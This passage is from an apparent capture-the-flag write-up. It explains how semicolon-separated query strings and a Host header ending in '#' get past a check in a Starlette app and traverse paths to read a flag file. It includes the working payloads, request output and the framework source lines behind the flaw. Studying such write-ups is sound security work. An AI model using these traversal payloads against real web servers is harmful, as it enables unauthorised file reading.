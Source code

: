 `request.url` is the raw URL without decoding, and `request.url.query` is also the undecoded version. When it reaches `request.query_params`, it is parsed into two params:

1. id=flag
2. %2F..%2f=

It seems that even if you don't use `&`, you can create two params because of the semicolon `;`.

Finally, when `request.query_params.keys()` is decoded, it becomes `./memo/id..//flag`.

However, I saw on Discord that this is enough: `id=flag;/%2e%2e`. The result is:

``` py
request.url: http://0.0.0.0:11000/view?id=flag;/%2e%2e
request.url.query id=flag;/%2e%2e
params: id=flag&%2F..=
unquote params: flag
filename: flag
keys: dict_keys(['id', '/..'])
path: ./memo/id/../flag
```

I also saw a different solution on Discord (from bbangjo#3967), which uses the Host header:

```
GET http://0.0.0.0:11000/view?id=flag&/..
Host: 0.0.0.0#
```

It produces a magical result:

```
request.url: http://0.0.0.0#/view?id=flag&/..
request.url.query
params: id=flag&%2F..=
unquote params: flag
filename: flag
keys: dict_keys(['id', '/..'])
path: ./memo/id/../flag
```

Although `request.url.query` disappears completely, `request.query_params` still has something, so it bypasses the check for `request.url.query`.

According to him, since `request.url` is constructed from the Host header, we can check the code to verify it. If I'm not mistaken, it should be here: [starlette/datastructures.py#L38](https://github.com/encode/starlette/blob/b1ae0c3621034f1531b9983389ce90be8d140bc6/starlette/datastructures.py#L38):

``` py
if host_header is not None:
  url = f"{scheme}://{host_header}{path}"
```

Because the Host is followed by a `#`, the query string behind it is parsed as a fragment, not a query string. Therefore, `request.url.query` will be empty.

Why does `request.query_params` still have something? Because it directly takes the original query string, not `request.url.query`, here: [starlette/requests.py#L116](https://github.com/encode/starlette/blob/6182d0a0bc7e5817197d2919b18d67f70e3a71d1/starlette/requests.py#L116)
